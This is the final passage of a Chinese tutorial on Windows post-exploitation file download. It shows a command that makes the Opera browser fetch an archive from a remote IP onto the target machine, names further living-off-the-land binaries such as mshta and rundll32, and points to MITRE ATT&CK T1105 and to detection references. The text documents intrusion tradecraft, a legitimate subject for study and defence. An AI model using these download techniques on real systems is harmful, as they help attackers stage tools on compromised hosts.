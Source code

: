 //Opera浏览器下载：  
  
start opera.exe http://192.168.1.1:19900/demo.rar  
  
  
然后去C:\Users\当前用户名\Downloads\看看有没有下载成功  
  
  
  
**结语**  
  
  
常见且比较实用的主要就上面这些，如果读者搜索类似的内容，其实还可以看到一些姿势，比如cmdl32、Mshta、Msiexec、rundll32、regsvr32等等。这些在我看来更类似无文件落地上线的姿势，而并非前文描述的落地文件的场景，因此本文并未给出，感兴趣的读者可以移步阅读下面的参考文章。此外关于落地文件，攻击矩阵中的T1105就是类似行为，比较符合本文中的场景，其中还收录了很多可利用的系统文件，不过其中很多我没有复现成功，有些又只有少数windows版本才可以利用，因此也没收录进本文，感兴趣的师傅也可以进一步阅读研究。  
  
参考文章：  
  
https://www.jianshu.com/p/a404bc7a5154  //windows自带下载  
  
https://developer.aliyun.com/article/1221451  //后渗透之windows中远程下载文件tips  
  
https://www.cnblogs.com/liujunjun/p/14718354.html  //Windows命令行文件下载方式汇总  
  
https://detection.fyi/sigmahq/sigma/windows/process_creation/  //攻击矩阵，可搜索download关键词寻找类似方法  
  
https://attack.mitre.org/techniques/T1105/  //T1105攻击矩阵，落地工具相关行为  
  
  
  
